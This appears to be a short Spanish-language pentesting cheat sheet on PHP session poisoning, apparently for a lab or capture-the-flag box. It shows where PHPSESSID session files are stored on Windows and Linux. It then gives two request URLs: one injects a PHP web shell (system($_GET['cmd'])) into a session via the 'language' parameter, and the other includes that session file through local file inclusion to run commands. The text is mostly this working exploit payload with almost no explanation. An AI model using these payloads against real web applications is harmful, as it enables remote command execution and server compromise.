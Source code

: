 ## Valor de PHPSESSID (EJEMPLO)

```python
PHPSESSID = el4ukv0kqbvoirg7nkp4dncpk3
```

## Como se almacena

```python
sess_el4ukv0kqbvoirg7nkp4dncpk3
```

## Rutas de almacenamiento dependiendo el sistema operativo

## Windows

```python
C:\Windows\Temp

C:\Windows\Temp\sess_el4ukv0kqbvoirg7nkp4dncpk3
```

## Linux

```python
/var/lib/php/sessions/

/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3
```

## Envenenamiento

```python
http://10.10.10.216/index.php?language=<?php system($_GET['cmd']); ?>
 
http://10.10.10.216/index.php?language=/var/lib/php/sessions/sess_el4ukv0kqbvoirg7nkp4dncpk3&cmd=id
```

